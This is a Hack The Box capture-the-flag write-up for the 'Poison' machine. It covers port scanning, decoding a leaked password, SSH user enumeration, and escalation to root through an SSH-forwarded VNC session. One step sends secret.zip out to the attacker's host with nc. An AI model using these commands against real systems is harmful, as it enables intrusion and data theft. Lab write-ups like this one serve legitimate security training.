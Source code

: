 ```yaml
---
title: "Poison"
date: 2023-08-31T17:08:15+02:00
tags: ["privesc","web","linux","ssh"]
categories: ["hackthebox"]
author: "Ayman Boulaich"
showToc: true
TocOpen: false
draft: false
hidemeta: false
comments: false
description: "Linux machine with a website which has a base64 encoded password leaked on a directory. We privEsc thanks to do a portforwarding on a VNC port."
canonicalURL: "https://canonical.url/to/page"
disableHLJS: true # to disable highlightjs
disableShare: false
disableHLJS: false
hideSummary: false
searchHidden: true
ShowReadingTime: true
ShowBreadCrumbs: true
ShowPostNavLinks: true
ShowWordCount: true
ShowRssButtonInSectionTermList: true
UseHugoToc: true
cover:
    image: "<image path/url>" # image path/url
    alt: "<alt text>" # alt text
    caption: "<text>" # display caption under cover
    relative: false # when using page bundles set this to true
    hidden: true # only hide on current single page
editPost:
    URL: "https://github.com/pwndside/pwndside.github.io/content"
    Text: "Suggest Changes" # edit text
    appendFilePath: true # to append file path to Edit link
---
```


## Room Information

- Room name: Poison
- Difficulty level: Medium
- Room link: https://app.hackthebox.com/machines/Poison

![/HTB/poison-icon.png](/HTB/poison-icon.png)

## Tools Used

- nmap
- searchsploit
- vncviewer

## Port Scanning

```bash
sudo nmap $IP -n -Pn -vvv --min-rate 5000
```

```bash
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.2 (FreeBSD 20161230; protocol 2.0)
| ssh-hostkey:
|   2048 e3:3b:7d:3c:8f:4b:8c:f9:cd:7f:d2:3a:ce:2d:ff:bb (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDFLpOCLU3rRUdNNbb5u5WlP+JKUpoYw4znHe0n4mRlv5sQ5kkkZSDNMqXtfWUFzevPaLaJboNBOAXjPwd1OV1wL2YFcGsTL5MOXgTeW4ixpxNBsnBj67mPSmQSaWcudPUmhqnT5VhKYLbPk43FsWqGkNhDtbuBVo9/BmN+GjN1v7w54PPtn8wDd7Zap3yStvwRxeq8E0nBE4odsfBhPPC01302RZzkiXymV73WqmI8MeF9W94giTBQS5swH6NgUe4/QV1tOjTct/uzidFx+8bbcwcQ1eUgK5DyRLaEhou7PRlZX6Pg5YgcuQUlYbGjgk6ycMJDuwb2D5mJkAzN4dih
|   256 4c:e8:c6:02:bd:fc:83:ff:c9:80:01:54:7d:22:81:72 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBKXh613KF4mJTcOxbIy/3mN/O/wAYht2Vt4m9PUoQBBSao16RI9B3VYod1HSbx3PYsPpKmqjcT7A/fHggPIzDYU=
|   256 0b:8f:d5:71:85:90:13:85:61:8b:eb:34:13:5f:94:3b (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJrg2EBbG5D2maVLhDME5mZwrvlhTXrK7jiEI+MiZ+Am
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.29 ((FreeBSD) PHP/5.6.32)
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.29 (FreeBSD) PHP/5.6.32
Service Info: OS: FreeBSD; CPE: cpe:/o:freebsd:freebsd
```

We have two open ports up and running, one with a website and the other one for **ssh**.

## Enumeration

As always I am going to enumerate the **http** page.

![Untitled](/HTB/poison-1.png)

It like a **php** browser, one of the sites to be tested is pretty interesting `listfiles.php` 

![Untitled](/HTB/poison-2.png)

We can see an array of **php** files maybe is performing a ls command on background.

```bash
This password is secure, it's encoded atleast 13 times.. what could go wrong really.. Vm0wd2QyUXlVWGxWV0d4WFlURndVRlpzWkZOalJsWjBUVlpPV0ZKc2JETlhhMk0xVmpKS1IySkVU bGhoTVVwVVZtcEdZV015U2tWVQpiR2hvVFZWd1ZWWnRjRWRUTWxKSVZtdGtXQXBpUm5CUFdWZDBS bVZHV25SalJYUlVUVlUxU1ZadGRGZFZaM0JwVmxad1dWWnRNVFJqCk1EQjRXa1prWVZKR1NsVlVW M040VGtaa2NtRkdaR2hWV0VKVVdXeGFTMVZHWkZoTlZGSlRDazFFUWpSV01qVlRZVEZLYzJOSVRs WmkKV0doNlZHeGFZVk5IVWtsVWJXaFdWMFZLVlZkWGVHRlRNbEY0VjI1U2ExSXdXbUZEYkZwelYy eG9XR0V4Y0hKWFZscExVakZPZEZKcwpaR2dLWVRCWk1GWkhkR0ZaVms1R1RsWmtZVkl5YUZkV01G WkxWbFprV0dWSFJsUk5WbkJZVmpKMGExWnRSWHBWYmtKRVlYcEdlVmxyClVsTldNREZ4Vm10NFYw MXVUak5hVm1SSFVqRldjd3BqUjJ0TFZXMDFRMkl4WkhOYVJGSlhUV3hLUjFSc1dtdFpWa2w1WVVa T1YwMUcKV2t4V2JGcHJWMGRXU0dSSGJFNWlSWEEyVmpKMFlXRXhXblJTV0hCV1ltczFSVmxzVm5k WFJsbDVDbVJIT1ZkTlJFWjRWbTEwTkZkRwpXbk5qUlhoV1lXdGFVRmw2UmxkamQzQlhZa2RPVEZk WGRHOVJiVlp6VjI1U2FsSlhVbGRVVmxwelRrWlplVTVWT1ZwV2EydzFXVlZhCmExWXdNVWNLVjJ0 NFYySkdjR2hhUlZWNFZsWkdkR1JGTldoTmJtTjNWbXBLTUdJeFVYaGlSbVJWWVRKb1YxbHJWVEZT Vm14elZteHcKVG1KR2NEQkRiVlpJVDFaa2FWWllRa3BYVmxadlpERlpkd3BOV0VaVFlrZG9hRlZz WkZOWFJsWnhVbXM1YW1RelFtaFZiVEZQVkVaawpXR1ZHV210TmJFWTBWakowVjFVeVNraFZiRnBW VmpOU00xcFhlRmRYUjFaSFdrWldhVkpZUW1GV2EyUXdDazVHU2tkalJGbExWRlZTCmMxSkdjRFpO Ukd4RVdub3dPVU5uUFQwSwo=
```

I checked each one and `pwdbackup.txt` leaks a **base64 encoded password** and also a message telling us that has been encoded 13 times.

## Exploiting

So I decided to make a bash script in order to decode it 13 times and output the decoded password.

```bash
#!/bin/bash

encoded_text="Vm0wd2QyUXlVWGxWV0d4WFlURndVRlpzWkZOalJsWjBUVlpPV0ZKc2JETlhhMk0xV$
decoded_text=$encoded_text

for i in {1..13}
do
    decoded_text=$(echo "$decoded_text" | base64 -d)
done

echo "$decoded_text"
```

Once executed we have a password but not a username.

```
Charix!2#4%6&8(0
```

As the ssh version is older we can enumerate user with an exploit

![Untitled](/HTB/poison-3.png)

We can execute the exploit with the following command

```bash
usage: sshenum.py [-h] [-p PORT] target username
```

So I decided to try with admin, **root** and **posion** and **charix**. The last one because is extracted from the password.

**root** and **charix** are valid usernames.

![Untitled](/HTB/poison-4.png)

![Untitled](/HTB/poison-5.png)

## Gaining an Initial Foothold

After attempting the two usernames with the decoded password, I successfully logged in as **charix**.

![Untitled](/HTB/poison-6.png)

Let’s cat the **user’s flag**.

![Untitled](/HTB/poison-8.png)

![Untitled](/HTB/poison-9.png)

With the id command we can see that we don’t have permissions as root so we need to **privEsc**.

## Escalating Privilege

Checking at the charix’s home directory we can see a `secret.zip`.

![Untitled](/HTB/poison-10.png)

The file owner is **root** so let’s try to unzip it.

When I try to unzip it unzip asks you for a password but doesn’t let you put it before it closes. 

So I decide to unzip it on my local machine sending the file via nc.

```bash
nc 10.10.14.9 4444 < secret.zip
```

The bellow command on the remote machine and the above command on the local machine.

```bash
nc -lv 4444 > secret.zip
```

Once we get the zip I try to unzip it with the same password as before and it worked.

![Untitled](/HTB/poison-11.png)

The zip has only one file with a **non-ascii characters**.

Interesting but not so useful right now.

If we check if there are more open ports, we can see two unexpected ports which **nmap** doesn’t shown like **5801** and **5901**.

```bash
netstat -na -p tcp
```

![Untitled](/HTB/poison-12.png)

This ports are typically used for **VNC**. By checking the processes we can see that the vnc process is owned by the **root**.

```bash
ps faux
```

```bash
root   529   0.0  1.0  26188 10440 v0- I    12:05     0:00.68 Xvnc :1 -desktop X -httpd /usr/local/share/tightvnc/classes -auth /root/.Xauthority -geometry 1280x800 -depth 24 -rfbwait 120000 -rfbauth /root/.
```

Let’s do a **portforwarding** with ssh to the port 5901 in order to connect to vnc root’s dektop.

```bash
ssh -L5901:127.0.0.1:5901 charix@10.10.10.84
```

Now, we need to download **VNC**, we can do it with brew.

```bash
brew install tiger-vnc
```

Once installed let’s run vnc

```bash
vncviewer 127.0.0.1:5901
```

![Untitled](/HTB/poison-14.png)

The program asks you for a password, I tried to put **default/common passwords** and to reutilize the previous password but failed.

Later I realized that we have a secret file with a password maybe if we pass it as argument we can get in.

```bash
vncviewer -passwd secret 127.0.0.1:5901
```

![Untitled](/HTB/poison-15.png)

We are in.

![Untitled](/HTB/poison-16.png)

**Thank you for reading, and happy hacking! 😄**
